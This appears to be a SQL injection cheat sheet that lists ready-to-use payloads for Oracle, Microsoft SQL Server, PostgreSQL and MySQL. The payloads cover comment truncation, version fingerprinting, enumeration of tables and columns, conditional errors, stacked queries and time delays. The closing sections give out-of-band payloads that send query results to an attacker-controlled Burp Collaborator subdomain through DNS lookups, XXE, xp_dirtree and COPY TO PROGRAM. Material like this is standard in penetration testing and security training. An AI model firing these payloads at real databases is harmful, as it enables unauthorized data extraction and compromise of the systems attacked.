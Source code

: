 String concatenation
You can concatenate together multiple strings to make a single string.

Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT sleep(10)
Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'